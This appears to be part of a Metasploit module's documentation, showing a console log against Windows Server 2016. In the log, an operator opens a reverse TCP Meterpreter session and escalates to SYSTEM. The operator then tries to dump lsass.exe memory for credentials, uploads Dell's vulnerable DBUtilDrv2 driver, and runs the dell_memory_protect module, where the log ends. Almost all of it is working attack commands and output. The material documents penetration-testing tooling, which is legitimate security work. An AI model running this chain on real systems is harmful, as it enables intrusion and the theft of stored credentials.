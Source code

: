 ### Windows Server 2016 (10.0.14393) x64 using DBUtilDrv2 version 2.5 and PID option set to 0

```
[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.8:45172 ) at 2021-12-18 04:12:03 -0800

meterpreter > sysinfo
Computer        : WIN-7ESIGFVFQEG
OS              : Windows 2016+ (10.0 Build 14393).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x64/windows
meterpreter > getuid
Server username: WIN-7ESIGFVFQEG\albinolobster
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > ps | grep lsass
Filtering on 'lsass'

Process List
============

 PID  PPID  Name       Arch  Session  User  Path
 ---  ----  ----       ----  -------  ----  ----
 664  504   lsass.exe  x64   0

meterpreter > background
[*] Backgrounding session 1...
msf6 exploit(multi/handler) > use post/windows/gather/memory_dump
msf6 post(windows/gather/memory_dump) > set SESSIOn 1
SESSIOn => 1
msf6 post(windows/gather/memory_dump) > set PID 664
PID => 664
msf6 post(windows/gather/memory_dump) > set DUMP_PATH C:\\Windows\\Temp\\lsass_dump
DUMP_PATH => C:\Windows\Temp\lsass_dump
msf6 post(windows/gather/memory_dump) > run

[*] Running module against WIN-7ESIGFVFQEG
[*] Dumping memory for lsass.exe
[-] Post aborted due to failure: payload-failed: Unable to open process: Access is denied.
[*] Post module execution completed
msf6 post(windows/gather/memory_dump) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > upload /home/albinolobster/drivers/2_5/ C:\\Windows\\Temp\\
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.cat -> C:\Windows\Temp\\DBUtilDrv2.cat
[*] uploading  : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploaded   : /home/albinolobster/drivers/2_5/dbutildrv2.inf -> C:\Windows\Temp\\dbutildrv2.inf
[*] uploading  : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
[*] uploaded   : /home/albinolobster/drivers/2_5/DBUtilDrv2.sys -> C:\Windows\Temp\\DBUtilDrv2.sys
meterpreter > background
[*] Backgrounding session 1...
msf6 post(windows/gather/memory_dump) > use post/windows/manage/dell_memory_protect
msf6 post(windows/manage/dell_memory_protect) > set DRIVER_PATH C:\\Windows\\Temp\\
DRIVER_PATH => C:\Windows\Temp\
msf6 post(windows/manage/dell_memory_protect) > set SESSION 1
SESSION => 1
msf6 post(windows/manage/dell_memory_protect) > run

```